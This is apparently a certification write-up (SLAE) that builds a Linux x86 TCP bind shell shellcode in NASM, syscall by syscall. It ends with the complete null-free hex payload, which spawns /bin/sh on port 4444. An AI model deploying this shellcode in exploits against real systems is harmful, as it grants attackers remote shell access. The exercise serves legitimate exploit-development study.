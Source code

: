 # 1. TCP Bind Shell (linux/x86)

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-1568

## Task

The task is to create a TCP bind shell shellcode for Linux on the x86 architecture. The goal is to avoid null bytes while making the payload as small as possible.

Additionally, it should be easy to change the listening port.

## Solution

The solution is based on the [linux/x86/shell_bind_tcp](https://github.com/rapid7/metasploit-framework/blob/master/modules/payloads/singles/linux/x86/shell_bind_tcp.rb) payload from the Metasploit Framework and written in NASM.

The listening port is defined at the top of the NASM source:

```nasm
global _start

port equ 0x5c11             ; port = 4444 (big endian)
```

An IPv4/TCP socket is created using the [socket](https://man7.org/linux/man-pages/man2/socket.2.html) socket system call. Socket system calls are invoked using the [socketcall](https://man7.org/linux/man-pages/man2/socketcall.2.html) system call:

```nasm
section .text

_start:
    ; int socketcall(int call, unsigned long *args): syscall 0x66
    ; int socket(int domain, int type, int protocol): socketcall 0x1
    ;   s = socket(AF_INET = 2, SOCK_STREAM = 1, IPPROTO_IP = 0)
    xor ebx, ebx            ; ebx = 0
    mul ebx                 ; eax = 0, edx = 0
    push ebx                ; push domain = IPPROTO_IP = 0
    inc ebx                 ; socketcall = 1
    push ebx                ; push type = SOCK_STREAM = 1
    push 0x2                ; push protocol = AF_INET = 2
    mov ecx, esp            ; set socketcall args
    mov al, 0x66            ; syscall = 102
    int 0x80                ; perform syscall
```

The port is bound to the socket on 0.0.0.0 using the [bind](https://man7.org/linux/man-pages/man2/bind.2.html) socket system call:

```nasm
    ; struct sockaddr_in { sa_family_t sin_family; in_port_t sin_port; uint32_t s_addr }
    ;   addr_in = { (WORD) AF_INET = 2, (WORD) [PORT], INADDR_ANY = 0 }
    ; int bind(int sockfd, const struct sockaddr *addr, socklen_t addrlen): socketcall 0x2
    ;   bind(s, &addr_in, sizeof(sockaddr) = 16)
    pop ebx                 ; socketcall = 2
    pop esi                 ; align stack so that ecx = &addr_in
    push edx                ; push s_addr = INADDR_ANY = 0
    push word port          ; push sin_port = PORT
    push bx                 ; push sin_family = AF_INET = 2
    push 0x10               ; push addrlen = sizeof(sockaddr_in) = 16
    push ecx                ; push addr = &addr_in
    push eax                ; push sockfd = s
    mov ecx, esp            ; set socketcall args
    lea eax, [edx + 0x66]   ; syscall = 102
    int 0x80                ; perform syscall
```

The socket is marked as a listening socket using the [listen](https://man7.org/linux/man-pages/man2/listen.2.html) socket system call:

```nasm
    ; int listen(int sockfd, int backlog): socketcall 0x4
    ;   listen(s, 0)
    mov [ecx + 4], eax      ; set backlog = 0 (eax = 0 from successful bind return and sockfd already set)
    mov bl, 0x4             ; socketcall = 4
    mov al, 0x66            ; syscall = 102
    int 0x80                ; perform syscall
```

The shellcode then waits for an incoming connection using the [accept](https://man7.org/linux/man-pages/man2/accept.2.html) socket system call. Note that the *addrlen* argument is set to NULL, so the value of *addrlen* does not matter:

```nasm
    ; int accept(int sockfd, struct sockaddr *addr, socklen_t *addrlen): socketcall 0x5
    ;   client = accept(s, 0, whatever)
    inc ebx                 ; socketcall = 5 (all arguments already set)
    mov al, 0x66            ; syscall = 102 (eax = 0 from successful listen return)
    int 0x80                ; perform syscall
```

Stdin, stdout, and stderr are redirected to the new connected socket using the [dup2](https://man7.org/linux/man-pages/man2/dup.2.html) system call:

```nasm
    ; int dup2(int oldfd, int newfd): syscall 0x3f
    ;   dup2(client, 0..2)
    xchg eax, ebx           ; oldfd = client, eax = 5
    lea ecx, [edx + 0x3]    ; newfd = 3
dup_loop:
    dec ecx                 ; decrement newfd
    mov al, 0x3f            ; syscall = 63 (eax = 5 first iteration and dup2 returns stderr = 2 / stdout = 1)
    int 0x80                ; perform syscall
    jnz dup_loop            ; loop until newfd = 0
```

Finally, a shell is spawned using the [execve](https://man7.org/linux/man-pages/man2/execve.2.html) system call. Note that the *argv* and *envp* arguments can be set to NULL when they are not used by the executed program:

```nasm
    ; int execve(const char *pathname, char *const argv[], char *const envp[]): syscall 0xb
    ;   execve("//bin/sh", 0, 0)
    pop esi                 ; put null byte on top of stack
    push 0x68732f6e         ; push "n/sh" reversed
    push 0x69622f2f         ; push "//bi" reversed
    mov ebx, esp            ; pathname = "//bin/sh" (argv and envp already set)
    mov al, 0xb             ; syscall = 11 (eax = 0 from dup2 returning stdin)
    int 0x80                ; perform syscall
```

The complete source code can be found here: [shell_bind.nasm](https://github.com/SpacePlant/slae32/blob/main/shell_bind.nasm)

## Results

The assembled shellcode is 77 bytes and contains no null bytes. The MSF version is 78 bytes, contains a null byte, and makes some assumptions about the returned file descriptors.

```sh
$ shellcode=$(for i in $(objdump -d shell_bind | grep "^ " | cut -f 2); do echo -n '\x'$i; done)
$ echo $shellcode
\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x5b\x5e\x52\x66\x68\x11\x5c\x66\x53\x6a\x10\x51\x50\x89\xe1\x8d\x42\x66\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0\x66\xcd\x80\x93\x8d\x4a\x03\x49\xb0\x3f\xcd\x80\x75\xf9\x5e\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80
$ echo $shellcode | tr -cd 'x' | wc -c
77
```

The shellcode is executed successfully using the C template:

![Bind shell executed](images/shell_bind.png)
![Bind shell established](images/shell_bind_2.png)

